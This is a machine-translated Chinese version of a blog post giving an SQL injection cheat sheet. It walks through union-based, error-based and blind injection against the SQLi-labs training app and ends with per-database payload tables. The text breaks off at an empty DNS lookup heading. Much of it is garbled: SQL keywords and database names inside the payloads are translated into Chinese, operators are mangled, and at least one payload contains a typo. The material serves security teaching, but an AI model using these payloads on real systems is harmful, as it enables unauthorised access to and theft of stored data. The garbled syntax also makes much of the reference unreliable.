# 下载 SQL 注入备忘单 PDF 作为快速参考

> 原文：<https://hackr.io/blog/sql-injection-cheat-sheet>

2023 年网络攻击风险横行。这种攻击损害了宝贵数据的完整性和可靠性，使得网络安全 比以往任何时候都更加重要。一种常见的网络攻击是 SQL 注入，它操纵数据库并试图访问存储的信息。如果您的网站存储了重要的用户信息，这种攻击会更加普遍。

[IT 专业人士](https://hackr.io/blog/best-it-certifications)必须学会如何分析被篡改的数据，包括了解有用的事实和捷径。这就是为什么我们创建了这个 SQL 注入小抄供您参考。在其中，你会发现常见的 SQL 注入命令，SQL 注入代码列表，等等。

使用此 SQL 注入攻击备忘单了解 SQL 注入漏洞的不同变种。

但是在我们继续之前，让我们讨论一下 SQL 注入袭击事件。

## 什么是 SQL 注入攻击？

SQL 注入也被称为 SQLi。在 SQLi 注入攻击中，一种流行的网络攻击媒介注入恶意 SQL 代码，以故意攻击、访问和修改网站的后端数据库。

在这种攻击中，黑客试图访问机密数据，如银行详细信息、个人信息、用户名、密码等。一旦他们访问数据，他们可能会更改或窃取数据，从而给您的企业和客户带来巨大的安全损害和风险。

接下来，让我们来看看不同类型的 SQL 注入，这样你就可以更好地理解这种攻击是如何工作的，以及攻击者可能攻击你的数据库的地方。

## 不同类型的 SQL 注入攻击

以下是一些不同类型的 SQL 注入攻击。

*   **带内 SQLi(经典)** : 攻击者使用相同的通信信道发起攻击并收集结果。这是最常见的 SQLi 攻击之一，因为它很容易实现。带内 SQLi 攻击还有几个分支:
*   **基于错误的 SQLi** : 攻击者对数据库执行一些操作，产生错误消息。然后，他们可以使用这些错误消息提取数据，比如数据库结构。
*   **基于 Union 的 SQLi** : 这种技术使用 UNION SQL 操作符，它将多个 select 语句组合在一起，得到一个包含对攻击者有利的数据的 HTTP 响应。
*   **推理 SQLi(盲)** : 在这种类型的攻击中，攻击者向服务器发送 SQL 注入有效载荷数据，并分析服务器的响应和行为，以了解数据库的结构。与带内 SQLi 不同，数据不会从网站的数据库传输给攻击者。因此，无法在带内看到提取的数据。盲 SQL 注入速度较慢，因为它们依赖于服务器的响应和行为模式。在构思盲 SQL 注入备忘单时，请记住以下子攻击:
*   **布尔** : 攻击者向数据库发送 SQL 查询，因此应用程序将根据查询是真还是假返回数据。这个结果也会影响 HTTP 响应，并在 HTTP 响应中添加攻击者使用的信息。
*   **基于时间的** : 攻击者向数据库发送一个 SQL 查询，让数据库在做出反应之前等待。攻击者将分析数据库所花费的时间。然后，根据结果，将立即生成 HTTP 响应，或者在攻击者使用一段等待时间后生成。
*   **带外 SQLi** : 这种攻击只有在数据库服务器上启用了某些功能时才会起作用。当上述两种类型的攻击不起作用时，黑客将带外 SQLi 作为最后的手段。这种攻击依靠服务器的能力来创建 DNS 或 HTTP 请求，以便将数据传输给攻击者。

现在，我们来看一些 SQL 注入袭击的例子。

[完整 SQL Bootcamp 2023:从零到英雄](https://click.linksynergy.com/deeplink?id=jU79Zysihs4&mid=39197&murl=https%3A%2F%2Fwww.udemy.com%2Fcourse%2Fthe-complete-sql-bootcamp%2F)

## SQL 注入示例

对于这些例子，我们使用来自 Audi1 的 SQLi-lab 系列，其源代码您可以在这里 找到 [来重现 SQLi 攻击。主要目的是访问存储在数据库中的数据。](https://github.com/Audi-1/sqli-labs)

继续，我们将提供一个联合 SQL 注入备忘单，它将使用后端 SQL 语句来匹配查询。这意味着 SQLi 攻击过程各不相同。在任何应用程序上协助 SQLi 攻击媒介的两个基本要素如下:

*   显示 SQL 错误。
*   显示 SQL 输出。

## 基于联盟的 SQLi

基于联合的 SQLi 是一种带内类型的 SQLi，也是最简单的一种，因为攻击者可以很容易地从 SQL 错误中理解后端查询，并可以看到查询的输出。

网站看起来没有注入代码，如下图:



使用基于联盟的 SQLi，您可以轻松影响该网站。

首先，我们将追加'？id=1 '以获得正常结果:



网址:[http://localhost:8081/sqli-labs/Less-1/？](https://www.google.com/url?q=http://localhost:8081/sqli-labs/Less-1/?id%3D1&sa=D&source=editors&ust=1651594138482609&usg=AOvVaw2vLVHY84LlZWEUopBzYKit)id = 1

网站运行正常。但是现在，我们会添加恶意代码来黑网站。

首先，想象一下开发人员可能在应用程序的后面使用了什么。这里，我们假设开发人员可能使用了下面的 SQL 语句结构来点击并尝试该方法。

```
SELECT <col_1>, <col_2>, ..., <col_n> FROM <database_name>.<table_name> WHERE <username> = '<user_input>' AND <password> = '<user_password>' LIMIT 0,1
```

但是，在继续之前，请确保您对 [SQL](https://hackr.io/admin/blog/posts/542/https:/hackr.io/blog/how-to-learn-sql/) 有很好的了解。

在上面的例子中，尖括号中使用的词还没有被确认。剩下的部分是语法和语言关键字，它们可能因数据库的类型而异。

现在，我们将通过添加单个反逗号(')、双反逗号(")或转义字符(SQL 中的反斜杠(\)来中断 SQL 语句。

一般来说，在 SQL 语句中，单引号或双引号将用户输入的字符串括起来。但是，如果我们在查询之间使用其中的任何一个，它将使 SQL 语句不平衡，并导致屏幕上出现错误。



URL:localhost:8081/sqli-labs/Less-1/？id=1\

如你所见，你会得到一个错误。因此，您必须检查是什么符号('，''，\)导致了这个错误。现在，我们将在简单参数中插入一个恶意的 SQL 查询。但是首先，我们必须确保代码的执行是平衡的。

例如，如果开发者已经使用了一个括号，我们也必须添加一个括号来平衡代码。您还可以添加注释字符来平衡语句。



URL:localhost:8081/sqli-labs/Less-1/？id = 1 '–+

为了平衡代码，您需要知道表中的列数，这将有助于您在与原始输出进行 union 后转储查询输出。

要找出列数，可以使用‘ORDER BY’子句，该子句根据给定的列数对表中的条目进行排序(asc/dsc)。但是如果我们在输出中提供的列数多于实际总数，您将会得到一个错误。您可以使用如下所示的“ORDER BY”子句。

```
SELECT col1 FROM table1 ORDER BY 1
```

上述查询将对第 1 列的查询输出进行排序。

要找到获得成功结果的最大列数，您需要从小到大开始。对于这个网站，我们使用了最大数量的栏目:三个。


URL:localhost:8081/sqli-labs/Less-1/？id = 1 '+order+by+3 –+

在上图中，请注意 URL 中的“%27”是为单个反逗号(')编码的 URL，而“+”用于表示空格。我们收到一个超出最大列数的错误。现在，我们将尝试第 4 列。



URL:localhost:8081/sqli-labs/Less-1/？id = 1 '+order+by+4 –+

用' UNION '子句替换' ORDER BY '子句后，我们就有了一个在屏幕上转储数据的地方。


URL:localhost:8081/sqli-labs/Less-1/？id=1'+union+select+1，2，3 –+

现在，我们已经硬编码了要联合的列值，以查看这些值是否被转储。

在两个表的联合中，两个表的列数应该相等。但在这里，它是三。我们用无效 id 替换了有效 id 来显示数据。现在，在 union 之后只剩下一行，它将是我们注入查询的输出。



URL:localhost:8081/sqli-labs/Less-1/？id=-1'+union+select+1，2，3 –+

在这里，我们使用-1 使 id 无效，因此我们的数据“2”和“3”现在被显示，而不是原始数据。我们现在将使用数据库函数从数据库中提取信息。


URL:localhost:8081/sqli-labs/Less-1/？id=-1'+union+select+1，database()，3 –+

在上面的 URL 中，我们在注入查询中使用了“database()”函数而不是“2”来获取当前的数据库名称，这里是“security”。下面，我们提到了一些提取信息的常用 SQL 函数。

*   version(): 获取 SQL 的当前版本。
*   @@datadir: 获取 SQL 数据库所在的目录。
*   User()或 current_user: 获取创建或管理数据库的用户。

假设您想要提取表名、列名和字段的信息。在这种情况下，您可以使用名为“information_schema”的数据库中的特定表，该数据库维护所有用户创建的数据库、表和列的元数据。

我们将使用下面的查询从当前数据库中提取表格。

```
SELECT table_name FROM information_schema.tables from table_schema=database() LIMIT 0,1;
```

这将返回当前数据库中的表名，在 LIMIT 子句后递增第一个参数。



URL:localhost:8081/sqli-labs/Less-1/？id=-1'+union+select+1，table_name，3+from+information _ schema . tables+where+table _ schema = database()+limit+0，1 –+

您也可以使用‘information _ schema’数据库中的‘columns’表从指定的表中获取列名。

```
SELECT column_name FROM information_schema.columns WHERE table_name = <specific_table_name> LIMIT 0,1;
```

与表名一样，您也可以从指定的表中获取列名，并可以遍历表的所有行“columns:”:


URL:localhost:8081/sqli-labs/Less-1/？id=-1'+union+select+1，column_name，3+from+information _ schema . columns+where+table _ name = ' emails '+limit+0，1 –+

名为“安全”的数据库中“电子邮件”表的第一列名是“id”。同样，第二个列名是“email_id”。

现在，我们将注入以下 SQL 语句。

```
SELECT email_id FROM emails LIMIT 0,1
```

在此之后，您将得到如下所示的输出。



URL:localhost:8081/sqli-labs/Less-1/？id=-1'+union+select+1，email_id，3+from+emails+limit+0，1 –+

通过这种方式，您可以注入查询来访问存储在数据库中的数据。

## 基于错误的 SQLi

这种类型的攻击提供给你的是错误消息而不是输出，所以你只需要在 SQL 错误中注入恶意代码。见下图示例:



URL:localhost:8081/sqli-labs/Less-5/？id=1

要在屏幕上显示 SQL 错误，可以使用单引号或双引号。



URL:localhost:8081/sqli-labs/Less-5/？id=1'

该方法与基于联合的 SQLi 相同。唯一的区别是您只能运行特定的查询。该语句有点复杂，会触发一个 SQL 错误来转储查询的输出。

```
SELECT 1 from (SELECT COUNT(*), CONCAT(0x3a, 0x3a, (SELECT database()), 0x3a, 0x3a, floor( rand() * 2 ) )a FROM information_schema.columns GROUP BY a ) b;
```

我们将把上面的查询分解成子查询，以便更好地理解它们:

恶意代码为' SELECT database()'，显示当前数据库名称但出现 SQL 错误。这里，我们将采用可能重复的多行，并尝试将它们放入一个包或视图中。在出现重复行的情况下，您将通过 SQL 得到一个运行时错误，用于插入重复行和所需的输出。

一旦你理解了这个复杂的查询是如何工作的，你就可以用更广泛的查询来代替' SELECT database()'部分。我们已经解释了上述复杂查询的子查询。

获取当前数据库的名称。您可以用其他查询替换它。

得到一个随机数，要么是 0，要么是 1。

*   CONCAT(0x3a，0x3a，(SELECT database())，0x3a，0x3a，floor( rand() * 2 ) ) :

它将连接数据库名称左边的两个冒号和右边的两个冒号，并在末尾随机添加 0 或 1。

*   SELECT COUNT(*)，CONCAT(0x3a，0x3a，(SELECT database())，0x3a，0x3a，floor(rand()* 2))a FROM information _ schema . columns GROUP BY a

初始“select”和“from”之间的查询部分将被迭代几次，迭代次数等于数据库 information_schema 的 columns 表中的行数。我们有意迭代它来生成重复的行，从而产生运行时错误。查询的这一部分将根据“a”和连接部分的分组选择行数，a 是先前连接结果的别名。

```
SELECT 1 from (SELECT COUNT(*), CONCAT(0x3a, 0x3a, (SELECT database()), 0x3a, 0x3a, floor( rand() * 2 ) )a FROM information_schema.columns GROUP BY a ) b;
```

现在，我们刚刚将前面的查询嵌套到另一个 select 语句中，以获得一列。我们不希望它在这里返回结果，所以我们将它硬编码为 1，因为我们只需要 SQL 错误。

此外，还有一个“b”来给出嵌套查询的别名内部语句，并返回一行。



URL:localhost:8081/sqli-labs/Less-5/？id = 1 '+and+(SELECT 1 FROM(SELECT COUNT(*)，CONCAT(0x3a，0x3a，(SELECT database())，0x3a，0x3a，floor(rand()* 2))a FROM information _ schema . columns GROUP BY a)b)–+

如果没有重复的，你会得到上面的错误。我们将忽略它，并通过刷新页面继续尝试。



URL:localhost:8081/sqli-labs/Less-5/？id = 1 '+and+(SELECT 1 FROM(SELECT COUNT(*)，CONCAT(0x3a，x3a，(SELECT database())，0x3a，0x3a，floor(rand()* 2))a FROM information _ schema . columns GROUP BY a)b)–+

通过这种方式，你将得到两边两个冒号之间的数据库名称，你也可以从数据库中提取其他数据。

## 盲目 SQL 注入备忘单

这里的方法也是一样的，但是有一点额外的技巧。



URL:localhost:8081/sqli-labs/Less-8/？id=1'

当您查看上面的图片时，您会看到 SQL 查询没有错误消息和输出。从这里，您可以注入数据。为此，我们将使用 sleep()函数或布尔表达式来获得 true 或 false 结果。如下所述，我们将通过两种不同的方法来实现这一点。

### 基于延时:

使用 sleep()函数，我们将用指定的时间作为参数，在 SQL 查询的响应中创建一个延迟。

### 基于布尔:

如果查询成功运行或没有运行，您还可以通过一些肯定的消息来推断输出的真或假。为此，您需要首先创建一个真实的语句，并检查您是否得到了一般的信息。然后，您可以添加我们的查询，看看您是否仍然得到消息，这意味着它是真的，否则是假的。

现在，我们的任务是将表格或数据库转换成产生真或假的查询。您可以使用' substring()'函数获取给定字符串的子字符串来创建布尔查询。Substring()'函数有三个参数，原始字符串、子字符串的起始索引(索引从 1 开始)和几个用于标记的字符。

```
substring(<original_string>, <starting_index>, <number_of_characters>)
```

为了包含条件语句，您还可以使用“if()”语句，其中第一个参数是条件，第二个参数是真条件的任务，第三个参数是假条件要执行的任务。

```
if(<condition>, <query1>, <query2>)
```

因此，我们可以迭代字母或数字，看看是否满足条件。

在这种情况下，我们已经有了数据库名称(‘security’)，所以我们可以使用下面的查询:

```
if( (substring(database(), 0, 1) == ‘s’), sleep(5), null)
```

我们使用了值为 5 的睡眠功能。如果数据库名称的第一个字符是' s ',并且我们不做任何其他事情，这将使数据库回复延迟 5 秒。在这种情况下，您将按计划获得延迟 5 秒的响应。



网址:http://localhost:8081/sqli-labs/Less-8/？id = 1 '+和+if( (substring(database()，1，1) = 's ')，sleep(5)，null)–+

在基于布尔运算的情况下，你要么得到一条消息，要么什么都不得到。如果收到消息，查询返回 true，否则返回 false。

1 '和(子串(database()，1，1) = 's') - +



URL:localhost:8081/sqli-labs/Less-8/？id=1'+and+(子串(database()，1，1)= ' s ')–+

这种方法很棘手，因为你必须尝试每一种可能性，花费你大部分的时间。另一种效率较低的方法是使用“ascii()”函数将字符转换成 ascii 代码来比较数字，因此可以使用关系运算符。

```
if( (ascii(substring(database(), 0, 1)) = 115), sleep(5), null )
```

## SQL 注入命令

上图中，我们在进行 SQL 注入攻击时已经浏览了一些有用的语法。以下是一些常见的 SQL 注入命令:

### 字符串串联

该命令将多个字符串连接成一个字符串。

| 甲骨文 | 【地狱】【地狱】【地狱】 |
| 微软 |  |
| PostgreSQL | 【地狱】【地狱】【地狱】 |
| MySQL 的实现 | ‘hel’‘met’【注意两根弦之间的间距】CONCAT('hel '，' met') |

### 子串

这个命令给出了字符串的指定部分。

| 甲骨文 | SUBSTR('头盔'，4，2) |
| 微软 | 子串('头盔'，4，2) |
| PostgreSQL | 子串('头盔'，4，2) |
| MySQL 的实现 | 子串('头盔'，4，2) |

### 评论

这个命令删除正在执行的代码部分。

| 甲骨文 | -注释 |
| 微软 | -注释/*评论*/ |
| PostgreSQL | -注释/*评论*/ |
| MySQL 的实现 | #评论-注释【注意双破折号后的空格】/*评论*/ |

### 数据库版本

获取数据库的当前版本。

| 甲骨文 | 从 v $版本中选择横幅从 v $实例中选择版本 |
| 微软 | 选择@ @版本 |
| PostgreSQL | 选择版本() |
| MySQL 的实现 | 选择@ @版本 |

### 数据库内容

在这里，您可以获得数据库、列和其他表的详细信息。

| 甲骨文 | 从所有表格中选择*SELECT * FROM all_tab_columns 其中 TABLE _ NAME = ' TABLE-NAME-HERE ' |
| 微软 | SELECT * FROM information _ schema . tablesSELECT * FROM information _ schema . columns 其中 TABLE _ NAME = ' TABLE-NAME-HERE ' |
| PostgreSQL | SELECT * FROM information _ schema . tablesSELECT * FROM information _ schema . columns 其中 TABLE _ NAME = ' TABLE-NAME-HERE ' |
| MySQL 的实现 | SELECT * FROM information _ schema . tablesSELECT * FROM information _ schema . columns 其中 TABLE _ NAME = ' TABLE-NAME-HERE ' |

### 条件错误

该命令测试布尔条件。

| 甲骨文 | SELECT CASE WHEN(YOUR-CONDITION-HERE)THEN to _ char(1/0)ELSE NULL END FROM dual |
| 微软 | 选择 CASE WHEN(YOUR-CONDITION-HERE)th EN 1/0 否则空结束 |
| PostgreSQL | 选择 CASE WHEN (YOUR-CONDITION-HERE)然后转换(1/0 为文本)否则空结束 |
| MySQL 的实现 | 选择 IF(YOUR-CONDITION-HERE，(SELECT table _ name FROM information _ schema . tables)，‘a’) |

### 时间延迟

该命令在处理查询时创建了一个时间延迟。

| 甲骨文 | DBMS _ pipe . receive _ message((' a ')，10) |
| 微软 | 等待延迟‘0:0:10’ |
| PostgreSQL | 选择 pg_sleep(10) |
| MySQL 的实现 | 选择睡眠(10) |

### DNS 查找

该命令帮助您对外部域执行DNS 查找。

